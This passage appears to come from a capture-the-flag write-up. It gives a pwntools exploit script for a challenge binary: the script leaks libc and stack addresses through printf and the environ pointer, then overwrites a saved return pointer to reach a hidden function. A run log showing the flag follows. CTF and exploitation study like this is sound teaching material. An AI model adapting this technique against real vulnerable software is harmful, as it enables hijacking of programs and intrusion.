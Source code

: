 ```
    print(r.recvall())      # return the flag

r = remote("138.68.182.108", 31093)

# leak libc address (printf)
d = recycle(5)
d = d.decode("utf-8")[-16:].replace("]", "")
printf_libc = int(d, 16)
print(f"printf@libc: 0x{printf_libc:2x}")

# get libc base address and find environ pointer in libc
libc.address = printf_libc - libc.sym.printf
print(f"libc base  : 0x{libc.address:2x}")
print(f"environ libc: 0x{libc.sym.environ:2x}")

# leak stack address via environ pointer in libc
d = recycle(5)
r.sendline(str(libc.sym.environ))
environ_stack = int.from_bytes(r.recvline()[-7:-1], "little")
print(f"environ stack: 0x{environ_stack:2x}")

# get plant()'s saved return pointer by subtracting 288 bytes from environ
plant_retptr = environ_stack - 288
print(f"plant() saved return pointer: 0x{plant_retptr:2x}")

# overwrite plant()'s saved return pointer with hidden_resources()
plant(plant_retptr, elf.sym.hidden_resources)
```

And here it is retrieving the flag: 

```
► ./sploit.py SILENT=1
printf@libc: 0x7f85ab613f70
libc base  : 0x7f85ab5af000
environ libc: 0x7f85ab99d098
environ stack: 0x7fffeb322988
plant() saved return pointer: 0x7fffeb322868
b'\n\x1b[1;32765;32mWhere do you want to plant?\n1. City\n2. Forest\n\x1b[0m> Thanks a lot for your contribution!\nYou found a hidden vault with resources. You are very lucky!\nCHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}\n'
```

